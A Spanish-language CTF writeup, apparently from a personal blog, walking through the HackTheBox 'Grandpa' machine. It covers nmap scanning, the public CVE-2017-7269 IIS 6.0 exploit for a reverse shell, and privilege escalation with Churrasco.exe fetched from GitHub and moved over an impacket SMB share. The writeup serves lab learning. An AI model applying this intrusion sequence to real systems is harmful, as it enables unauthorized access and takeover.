 ```yaml
---
published: true
title: HackTheBox - Grandpa [WriteUp OSCP style]
date: '2021-11-04'
category: HackTheBox
description: WriteUp de la Máquina Grandpa de HackTheBox (Extrapolable a la máquina Granny)
---
```


![image-center](/assets/images/Grandpa_HTB/info.PNG)

## Reconocimiento inicial
Comenzaremos realizando un escaneo con ```nmap``` mediante el siguiente comando para la enumeración de puertos de la máquina

```bash
nmap -p- -sS --min-rate 5000 --open -n -Pn -vvv 10.10.10.242 -oG allports
```

![image-center](/assets/images/Grandpa_HTB/nmap-ports.PNG)

Obteniendo como resultado que el puerto 80 de la máquina está abierto. Luego procederemos a escanear las versiones y scripts con nmap a este puerto para recopilar más información aún.

![image-center](/assets/images/Grandpa_HTB/nmap-version.PNG)

Encontrando que el servidor web ejecuta un IIS 6.0 el cual es vulnerable a varios CVE.
Ingresando a la página en cuestión y utilizando Wappalyzer para buscar más información, no encontramos mucho más de lo que ya encontramos con el escaneo de versiones.

![image-center](/assets/images/Grandpa_HTB/web-inicial.PNG)

Por lo que procederemos a buscar algún CVE que nos sea de utilidad para conseguir una reverse shell.

## Reverse Shell

Después de un rato buscando se llegó al [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269) el cual permite realizar una Reverse Shell a nuestro equipo de atacante.

![image-center](/assets/images/Grandpa_HTB/exploit-CVE-2017-7269.PNG)

Para ello clonamos el repositorio en nuestro directorio de trabajo, nos metemos en el directorio y ejecutamos la vulnerabilidad de la siguiente forma

```bash
python <nombre_exploit> <ip_target> <port_target> <ip_nuestra> <port_nuestro>
```

![image-center](/assets/images/Grandpa_HTB/revshell.PNG)

## Escalación de privilegios

Una vez dentro se intentó ir al directorio Harry quien posiblemente contenga la user-flag, sin embargo, no se pudo acceder.

![image-center](/assets/images/Grandpa_HTB/access-denied.PNG)

por lo que se procedio a ver que privilegios existen dentro de la máquina, encontrando que el SeImpersonatePrivilege está habilitado.

![image-center](/assets/images/Grandpa_HTB/whoami-priv.PNG)

Cuando este privilegio esta activado podemos ejecutar una herramienta para escalar privilegios que se llama JuicyPotato, sin embargo, la versión del Windows que estamos trabajando es Windows Server 2003.
Lo cual nos impide ejecutar el JuicyPotato por compatibilidad de las versiones. Para estos casos es que existe una herramienta similar llamada Churrasco.exe.

![image-center](/assets/images/Grandpa_HTB/churrasco.PNG)

Esta herramienta la podemos descargar desde [https://github.com/Re4son/Churrasco/raw/master/churrasco.exe](https://github.com/Re4son/Churrasco/raw/master/churrasco.exe), luego es necesario compartirla a la máquina objetivo.
Para ello se utilizó impacket con smb-server

![image-center](/assets/images/Grandpa_HTB/smb-traspaso.PNG)

Por temas de sigilo es recomendable, en general, trabajar en la carpeta temporal de las máquinas objetivos ya que suelen tener más permisos en general o suelen borrar la data que contienen al apagarse.

![image-center](/assets/images/Grandpa_HTB/transferencia-success.PNG)

## Flags

Una vez realizado lo anterior ya podemos ejecutar el binario, esto lo podemos hacer ejecutando el binario, agregando la flag "-d" y entre comillas indicando el comando a ejecutar.

![image-center](/assets/images/Grandpa_HTB/churrasco-ejecucion.PNG)

Con esto podríamos obtener una reverse shell como root a nuestra maquina subiendo un binario de Netcat, sin embargo, yo prefiero ir directamente por las banderas ya que podemos intuir donde están, ya que esto es un CTF.

### user.txt

![image-center](/assets/images/Grandpa_HTB/user-flag.PNG)

### root.txt

![image-center](/assets/images/Grandpa_HTB/root-flag.PNG)
